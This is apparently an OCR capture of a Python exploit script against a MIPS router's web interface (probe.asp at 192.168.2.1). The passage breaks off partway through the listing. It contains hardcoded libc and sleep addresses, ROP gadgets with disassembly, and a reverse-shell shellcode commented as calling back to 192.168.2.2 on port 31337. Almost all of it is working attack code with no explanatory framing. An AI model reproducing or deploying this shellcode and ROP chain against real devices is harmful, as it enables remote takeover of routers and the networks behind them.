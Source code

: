 ```python
    'Host': '192.168.2.1',
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36",
    'Origin': 'http://192.168.2.1',
    'Referer': 'http://192.168.2.1/probe.asp',
    # 'Content-Type': 'application/x-www-form-urlencoded',
}

sleep_addr = 0x000529a0
usleep_addr = 0x00052bb0
libc_base = 0x77ebf000

"""
ip: 192.168.2.2
port : 31337
"""
shellcode  = b"\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += b"\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += b"\xf8\xff\xa5\xaf\x02\x02\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += b"\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += b"\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += b"\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += b"\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += b"\xab\x0f\x02\x24\x0c\x09\x09\x01"


"""
    addiu $t9,$sp,0x104
    jalr $t9
    li $v0,0xfffffffc
"""
myjump_to_shellcode  = b"\x04\x01\xb9\x27"
myjump_to_shellcode += b"\x09\xf8\x20\x03"
myjump_to_shellcode += b"\xfc\xff\x02\x24"


"""
jump to sleep and set $ra
.text:0001B0B4 21 C8 20 02                   move    $t9, $s1
.text:0001B0B8 20 00 BF 8F                   lw      $ra, 0x18+0x8($sp)
.text:0001B0BC 1C 00 B1 8F                   lw      $s1, 0x18+0x4($sp)
.text:0001B0C0 18 00 B0 8F                   lw      $s0, 0x18+0x0($sp)
.text:0001B0C4 08 00 20 03                   jr      $t9
.text:0001B0C8 28 00 BD 27                   addiu   $sp, 0x28
"""
middle_jump = 0x0001b0b4


"""
.text:00035C24 21 C8 40 02                   move    $t9, $s2
.text:00035C28 09 F8 20 03                   jalr    $t9
.text:00035C2C 21 20 00 02                   move    $a0, $s0
"""
move_a0_s0 = 0x00035c24

"""
.text:00026164 18 00 A5 27                   addiu   $a1, $sp, 0xC0-0xA8
.text:00026168 10 00 BC 8F                   lw      $gp, 0xC0-0xB0($sp)
```